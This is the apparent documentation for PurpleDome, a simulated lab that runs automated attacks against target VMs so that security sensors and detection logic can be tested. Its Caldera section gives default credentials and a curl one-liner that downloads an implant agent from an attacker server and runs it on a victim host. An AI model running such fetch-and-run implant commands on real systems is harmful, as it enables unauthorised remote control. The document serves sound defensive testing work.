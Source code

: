 ======
Basics
======

Purple Dome is a simulated and automated environment to experiment with hacking - and defense.

PurpleDome is relevant for you:

* If you develop sensors for bolt on security
* If you want to test detection logic for your bolt on security
* If you want to stress test mitigation around your vulnerable apps
* Experiment with hardening your OS or software
* Want to forensically analyse a system after an attack
* Do some blue team exercises
* Want to train ML on data from real attacks

PurpleDome simulates a small busniess network. It generates an attacker VM and target VMs. Automated attacks are then run against the targets.

Depending on which sensors you picked you will get their logs. And the logs from the attacks. Perfect to compare them side-by-side.

Attacks are written as small plugins and control pre-installed tools:

* Kali command line tools
* Caldera commands
* Metasploit

That way your experiments focus on behaviour detection. And not on whack-a-mole games with malware samples.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Attacks as plugins controlling
    * Caldera attacks
    * Kali attacks
    * Metasploit attacks
* Data collection: Attack log and sensor data in parallel with timestamps for matching events
* Vulnerability plugins: Modify the targets before the attack
* Sensor plugins: Write a simple wrapper around your sensor and integrate it into the experiments

Components
==========

The command line tools are the way you will interact with Purple Dome. Those are described in the *CLI* chapter.

The experiments are configured in YAML files, the format is described in the *configuration* chapter. You will also want to create some target VMs. You can do this manually or use Vagrant. Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter. Thanks to a plugin interface this is quite simple.





TODO: What sensors are pre-installed ?
TODO: How to attack it ?
TODO: How to contact the servers (ssh/...) ? Scriptable
TODO: How to run it without sudo ?
TODO: Which data is collected ? How to access it ? How to get data dumps out ?
TODO: Add Linux Server
TODO: Add Mac Server



Data aggregator
---------------

We currently can use IDP and logstash

There are several options for data aggregators:

* Fleet OSQuery aggregator: https://github.com/kolide/fleet
* The Hive


Sensors on Targets (most are Windows)
-------------------------------------

Those sensors are not integrated but could be nice to play with:

Palantir Windows Event forwarding: https://github.com/palantir/windows-event-forwarding

Autorun monitoring: https://github.com/palantir/windows-event-forwarding/tree/master/AutorunsToWinEventLog

Palantir OSquery: https://github.com/palantir/osquery-configuration

SwiftOnSecurity Sysmon config: https://github.com/SwiftOnSecurity/sysmon-config


Palantir OSQuery is mixed OS: Windows/Mac Endpoints, Linux Servers


Caldera
-------

Attack framework.

Starting: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

List modules: *filebeat modules list*

%% TODO: Add OSQueryD https://osquery.readthedocs.io/en/latest/introduction/using-osqueryd/

Logstash
--------

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Alternative: The Hive
---------------------

Sander Spierenburg (SOC Teamlead) seems to be interested in The Hive. So it is back in the game



Repos
-----

* The main part: https://git.int.avast.com/ai-research/purpledome
* Caldera fork to fix bugs: TBD
* Caldera Plugin for statistics: <add public git/avast folder>


Links
-----

* Others detecting this kind of things

    - https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/


